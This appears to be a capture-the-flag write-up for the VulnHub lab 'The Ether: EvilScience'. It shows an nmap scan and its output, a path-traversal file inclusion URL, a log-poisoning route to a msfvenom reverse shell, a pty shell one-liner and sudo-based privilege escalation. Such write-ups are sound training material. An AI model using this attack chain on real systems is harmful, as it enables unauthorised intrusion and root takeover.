 

Recon part

host scan:

	nmap -sV -A -Pn 192.168.187.128 -p-

	Starting Nmap 7.40 ( https://nmap.org ) at 2018-01-17 12:51 EST
	Nmap scan report for 192.168.187.128
	Host is up (0.0010s latency).
	Not shown: 65533 closed ports
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 12:09:bc:b1:5c:c9:bd:c3:ca:0f:b1:d5:c3:7d:98:1e (RSA)
	|_  256 de:77:4d:81:a0:93:da:00:53:3d:4a:30:bd:7e:35:7d (ECDSA)
	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: The Ether
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 8.46 seconds



go to web server and find LFI for access apache logs : http://192.168.187.128/?file=../log/access.log#top

As LFI works over a php engine it is a big change that php code injected inside log file will be processed by php:

so:
1. intercept any request to web server
2. inject php code inside


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/inject.jpg)


where "shell" file is generated reverse shell ( generated by msfvenom )




than refresh http://192.168.187.128/?file=../log/access.log#top in browser and php code executed


privilege escalation

spawn to tty shell : python -c 'import pty; pty.spawn("/bin/sh")'    ( see all options https://netsec.ws/?p=337)
see what files can be executed under root user from www-data : sudo -l

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/priv1.png)


got root command execution by CLI injection ( thank Julia team member , I really tried over ssh username injection :(   ) : 


got flag in /root dir inside picture in base64 encoding:

![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/flag1.png)


![alt text](https://github.com/s1l3xz/some/blob/master/vuln_hub/The Ether: EvilScience/flag2.png)


